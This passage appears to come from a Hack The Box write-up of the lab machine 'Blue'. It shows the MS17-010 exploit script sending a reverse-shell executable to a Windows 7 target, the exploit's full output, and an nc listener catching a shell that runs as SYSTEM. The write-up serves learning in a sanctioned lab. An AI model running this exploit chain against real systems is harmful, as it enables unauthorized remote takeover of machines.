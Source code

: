 While x64 is relatively universal for Windows systems today, in 2017 when this
box was released, x86 was much more common, especially in Windows 7.

`shell_reverse_tcp` is a raw command shell (non-meterpreter), and it is not
staged (which is to say the entire payload is in that one exe, instead of just
a stub that will connect back and get the rest). With both of those, I can
just catch the shell with `nc`. If I wanted a staged payload, I would have
done `shell/reverse_tcp`.

With the username updated to “0xdf”, I’ll start `nc`, and run
`send_and_execute.py`:

    
    
    (impacket-venv) oxdf@parrot$ python send_and_execute.py 10.10.10.40 rev.exe 
    Trying to connect to 10.10.10.40:445
    Target OS: Windows 7 Professional 7601 Service Pack 1
    Using named pipe: browser
    Target is 64 bit
    Got frag size: 0x10
    GROOM_POOL_SIZE: 0x5030
    BRIDE_TRANS_SIZE: 0xfa0
    CONNECTION: 0xfffffa8001c3d8f0
    SESSION: 0xfffff8a0019ee2a0
    FLINK: 0xfffff8a00264f048
    InParam: 0xfffff8a00283a15c
    MID: 0xd07
    unexpected alignment, diff: 0x-1ebfb8
    leak failed... try again
    CONNECTION: 0xfffffa8001c3d8f0
    SESSION: 0xfffff8a0019ee2a0
    FLINK: 0xfffff8a002850088
    InParam: 0xfffff8a00284a15c
    MID: 0xe03
    success controlling groom transaction
    modify trans1 struct for arbitrary read/write
    make this SMB session to be SYSTEM
    overwriting session security context
    Sending file BI8O95.exe...
    Opening SVCManager on 10.10.10.40.....
    Creating service mIfk.....
    Starting service mIfk.....
    The NETBIOS connection with the remote host timed out.
    Removing service mIfk.....
    ServiceExec Error on: 10.10.10.40
    nca_s_proto_error
    Done
    

At the line sixth from the end, where it says “Starting Service”, I get a
connection at `nc`:

    
    
    oxdf@parrot$ rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.40] 49162
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system
    

[](/2021/05/11/htb-blue.html)

